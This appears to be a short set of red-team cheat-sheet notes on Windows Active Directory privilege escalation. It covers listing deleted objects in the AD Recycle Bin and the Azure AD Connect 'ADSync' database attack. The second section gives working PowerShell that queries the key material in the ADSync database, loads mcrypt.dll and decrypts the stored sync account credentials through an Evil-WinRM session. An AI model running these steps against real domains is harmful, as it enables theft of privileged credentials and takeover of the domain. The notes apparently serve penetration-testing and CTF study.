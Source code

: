 ## AD_Recycle_bin_group

https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/
https://www.lepide.com/how-to/restore-deleted-objects-in-active-directory.html#:~:text=Navigate%20to%20start%20and%20type,to%20restore%20the%20deleted%20objects. 


```
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects
Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

---

## Azure admins group 

We can use powershell's `Invoke-SQLcmd` to query the Azure AD Database “ADSync”. This database allows active directory to sync the AD configurations to the cloud. The attack is explained more thoroughly in this blog:

https://blog.xpnsec.com/azuread-connect-for-redteam/

The configuration files are stored in:
```
mms_server_configuration

mms_management_agent
```

The encrypted configuration lies in the `mms_management_agent` and is decrypted with the `entropy`, `instance_id`, and `key_id`, with the help of `mcrypt.dll`.

To query the required fields we can utilize the built-in Powershell commandlet:

```
Invoke-SQLCMD -Query "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" -ServerInstance "<Hostname>" -Database "ADSync"  
  
Invoke-SQLCMD -Query "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent" -ServerInstance "<Hostname>" -Database "ADSync"  
```

We can store these values directly in individual powershel variables, and then pass them to the decryption function provided by the XPN blog as such:

```
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

Now our decrypted information is stored in `$decrypted`. So on the command line:
```
Evil-WinRM PS C:\Users> $decrypted
```

A script to automate : https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/